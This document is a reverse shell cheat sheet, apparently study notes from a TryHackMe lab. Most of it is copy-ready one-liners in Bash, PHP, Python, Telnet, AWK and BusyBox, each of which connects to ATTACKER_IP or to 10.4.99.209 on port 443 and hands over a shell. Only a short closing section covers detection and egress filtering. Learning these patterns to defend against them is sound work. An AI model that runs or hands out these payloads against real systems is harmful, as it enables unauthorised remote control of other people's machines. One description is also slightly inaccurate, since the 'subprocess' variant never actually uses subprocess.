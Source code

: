 ### Shell Payloads: Techniques for Exposing a Shell on a Linux OS

Shell payloads are commands or scripts that enable remote access by exposing a shell on the compromised machine. In the case of a **bind shell**, the target machine listens for an incoming connection, while a **reverse shell** initiates a connection to the attacker's system. Let's explore popular reverse shell payloads used in Linux, including implementations in Bash, PHP, Python, and other tools.

---

### Bash Reverse Shell Payloads

**1. Normal Bash Reverse Shell**
   ```bash
   target@tryhackme:~$ bash -i >& /dev/tcp/ATTACKER_IP/443 0>&1
   ```
   - **Description**: This payload creates an interactive Bash shell that sends both standard output and standard error through a TCP connection to `ATTACKER_IP` on port `443`. This setup allows for a basic two-way communication channel.

**2. Bash Read Line Reverse Shell**
   ```bash
   target@tryhackme:~$ exec 5<>/dev/tcp/ATTACKER_IP/443; cat <&5 | while read line; do $line 2>&5 >&5; done
   ```
   - **Description**: Opens a new file descriptor (numbered `5`) connected to `ATTACKER_IP:443` and reads input from the attacker line-by-line, executing it and sending the output back through the same socket.

**3. Bash File Descriptor 196 Reverse Shell**
   ```bash
   target@tryhackme:~$ 0<&196;exec 196<>/dev/tcp/ATTACKER_IP/443; sh <&196 >&196 2>&196
   ```
   - **Description**: Uses file descriptor `196` to set up a two-way communication channel over TCP. Commands are read from and sent to the attacker through the same connection.

**4. Bash File Descriptor 5 Reverse Shell**
   ```bash
   target@tryhackme:~$ bash -i 5<> /dev/tcp/ATTACKER_IP/443 0<&5 1>&5 2>&5
   ```
   - **Description**: Creates an interactive Bash shell using file descriptor `5`, allowing bidirectional communication with the attacker.

---

### PHP Reverse Shell Payloads

PHP offers several functions to execute reverse shell payloads, primarily suited for web-based exploitation where PHP is supported.

**1. PHP exec Reverse Shell**
   ```php
   target@tryhackme:~$ php -r '$sock=fsockopen("ATTACKER_IP",443);exec("sh <&3 >&3 2>&3");'
   ```
   - **Description**: Opens a socket to `ATTACKER_IP:443` and uses the `exec` function to open a shell and redirect standard input/output to the socket.

**2. PHP shell_exec Reverse Shell**
   ```php
   target@tryhackme:~$ php -r '$sock=fsockopen("ATTACKER_IP",443);shell_exec("sh <&3 >&3 2>&3");'
   ```
   - **Description**: Similar to `exec`, this payload uses `shell_exec` to execute a shell, redirecting input/output to the attacker's socket.

**3. PHP system Reverse Shell**
   ```php
   target@tryhackme:~$ php -r '$sock=fsockopen("ATTACKER_IP",443);system("sh <&3 >&3 2>&3");'
   ```
   - **Description**: Uses the `system` function, executing commands and sending output directly back to the attacker.

**4. PHP passthru Reverse Shell**
   ```php
   target@tryhackme:~$ php -r '$sock=fsockopen("ATTACKER_IP",443);passthru("sh <&3 >&3 2>&3");'
   ```
   - **Description**: The `passthru` function is effective for executing binary commands and handling raw output, which can be useful for specific tasks.

**5. PHP popen Reverse Shell**
   ```php
   target@tryhackme:~$ php -r '$sock=fsockopen("ATTACKER_IP",443);popen("sh <&3 >&3 2>&3", "r");'
   ```
   - **Description**: Opens a process file pointer with `popen`, facilitating the execution of commands through the shell.

---

### Python Reverse Shell Payloads

Python is widely supported on Linux and provides multiple ways to create a reverse shell.

**1. Python Reverse Shell with Environment Variables**
   ```python
   target@tryhackme:~$ export RHOST="ATTACKER_IP"; export RPORT=443; python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("bash")'
   ```
   - **Description**: Sets the attacker IP and port as environment variables, opens a socket, duplicates the file descriptors, and spawns a Bash shell for the connection.

**2. Python Reverse Shell Using subprocess**
   ```python
   target@tryhackme:~$ python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.4.99.209",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'
   ```
   - **Description**: Uses `subprocess` and `os` modules to spawn a Bash shell. It redirects the input/output/error streams to the attacker’s socket.

**3. Short Python Reverse Shell**
   ```python
   target@tryhackme:~$ python -c 'import os,pty,socket;s=socket.socket();s.connect(("ATTACKER_IP",443));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("bash")'
   ```
   - **Description**: A shorter payload that creates a reverse shell by redirecting standard input/output and spawning a shell.

---

### Other Reverse Shell Payloads

**1. Telnet Reverse Shell**
   ```bash
   target@tryhackme:~$ TF=$(mktemp -u); mkfifo $TF && telnet ATTACKER_IP 443 0<$TF | sh 1>$TF
   ```
   - **Description**: Uses `mkfifo` to create a named pipe, then connects to `ATTACKER_IP` on port 443 via Telnet, allowing for a basic reverse shell.

**2. AWK Reverse Shell**
   ```awk
   target@tryhackme:~$ awk 'BEGIN {s = "/inet/tcp/0/ATTACKER_IP/443"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null
   ```
   - **Description**: Leverages AWK’s TCP capabilities to connect to the attacker and send/receive data over a TCP connection.

**3. BusyBox Reverse Shell**
   ```bash
   target@tryhackme:~$ busybox nc ATTACKER_IP 443 -e sh
   ```
   - **Description**: Uses BusyBox’s built-in Netcat (`nc`) functionality to connect to the attacker, executing `/bin/sh` upon connection.

---

### Summary and Security Implications

Each of these payloads opens a reverse shell by connecting to the attacker’s IP address and port, exposing the target system’s command line. The most commonly used ports are 443, 80, or other well-known ports to blend with legitimate traffic and evade detection by firewalls.

#### **Security Considerations**:
1. **Network Monitoring**: Implement Intrusion Detection Systems (IDS) to detect unusual outbound connections, especially to suspicious ports.
2. **Firewall Rules**: Restrict outbound connections on commonly abused ports, and apply strict egress filtering rules.
3. **Endpoint Protection**: Employ endpoint detection tools to monitor the execution of suspicious commands and payloads.
4. **User Awareness**: Educate users and administrators about common reverse shell payloads, especially when reviewing scripts and code on servers.

Understanding these payloads is essential for cybersecurity professionals to defend against them effectively. By recognizing the patterns and behavior of reverse shells, defenders can design better security strategies to detect and mitigate such attacks.
